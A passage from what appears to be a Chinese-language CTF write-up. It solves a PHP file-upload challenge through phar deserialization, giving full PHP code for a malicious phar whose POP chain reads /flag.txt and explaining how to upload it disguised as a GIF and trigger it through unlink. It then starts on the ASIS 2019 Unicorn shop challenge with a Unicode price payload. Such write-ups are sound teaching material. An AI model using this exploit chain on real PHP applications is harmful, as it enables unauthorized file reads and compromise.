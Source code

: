 可以看到我们不能通过任意文件下载去下载 flag 文件。而在删除时，关键在于调用了 `detele` 函数，这会触发 `unlink`。`unlink` 在用 `phar://` 伪协议解析文件时会进行反序列化，结合刚才的魔术方法 `__call`，我们容易想到利用 phar 反序列化来读 flag。

我们已经有 `FileList->__destruct` 方法打印 `__call` 的结果。接下来，读 flag 显然只能用 `File` 的 `close` 方法，为了调用这个方法，我们需要构造形如 `FileList->__call("close")` 的调用。

搜索字符串 `close`，可以发现代码中还有一处 `close` 调用，位于 `User->__destruct` 中，本来是用于关闭数据库连接，但我们可以设置 `db` 为 `FileList` 对象从而达到目的。最后设置 `File` 对象的 `filename` 为 `/flag.txt`。

由于我们使用了 `unlink`，所以会自动调用 `User->__destruct`，至此 pop 链构造完成。

```php
<?php

class User
{
    public $db;
}
class FileList
{
    private $files;
    public function __construct() {
        $this->files = array(new File());
    }
}
class File
{
    public $filename = "/flag.txt";
}

$fl = new FileList();
$u = new User();
$u->db = $fl;

$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->addFromString("1.txt", "text");
$phar->setMetadata($u);
$phar->stopBuffering();

?>
```

然后将 `php.ini` 中的 `phar.readonly` 设为 `Off`，运行得到 `1.phar`，上传并抓包，更改文件名为 `1.gif`，更改 `Content-Type` 为 `image/gif` 即可成功上传。最后删除，更改文件名为 `phar://1.gif`，触发 `unlink` 读取 flag。

## \[ASIS 2019\] Unicorn shop

本题需要花费 1337 购买超级独角兽，但输入的价格只能是一个字符。查看源代码发现提示和 UTF8 相关，因此去查询 Unicode 中数值大于 1337 的字符的 UTF8 编码，举个例子：

```
id=4&price=%e1%8d%bc
```
